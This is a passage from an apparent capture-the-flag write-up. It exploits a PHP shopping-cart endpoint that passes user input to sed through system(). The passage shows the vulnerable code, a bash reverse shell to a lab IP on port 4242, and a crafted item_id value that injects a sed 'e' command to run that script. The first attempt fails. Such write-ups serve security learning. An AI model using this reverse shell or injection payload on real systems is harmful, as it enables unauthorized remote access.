 ```php
    if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
        system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
        echo "Item removed from cart";
    }
    else {
        echo "Invalid item";
    }
    exit;
```

Because it uses sed, sed is a GTFO bin and we control some variables in that expression, we could drop a very simple revshell in /tmp
```bash
-bash-5.1$ vi blah.sh
-bash-5.1$ chmod +x blah.sh
-bash-5.1$ cat blah.sh
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.135/4242 0>&1
```

And then have sed call it with something like that
```bash
sed '1e/tmp/blah.sh' /etc/passwd
sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}
sed -i '/item_id=1' -e "1e/tmp/blah.sh" /tmp/blah.sh '/d' /var/www/store/cart/user_id
```

so this means that the `item_id` needs to be `1' -e "1e/tmp/blah.sh" /tmp/blah.sh '` lets go put whatever in the cart and intercept the post to remove it, and we can slap our payload in there with some urlencoding:  
![delete.png](delete.png)

And ... disapointingly we get an `Invalid item` error, but that's not a big deal we have the source, lets have a closer look.
```php
    if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
        system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
        echo "Item removed from cart";
    }
    else {
        echo "Invalid item";
    }
```

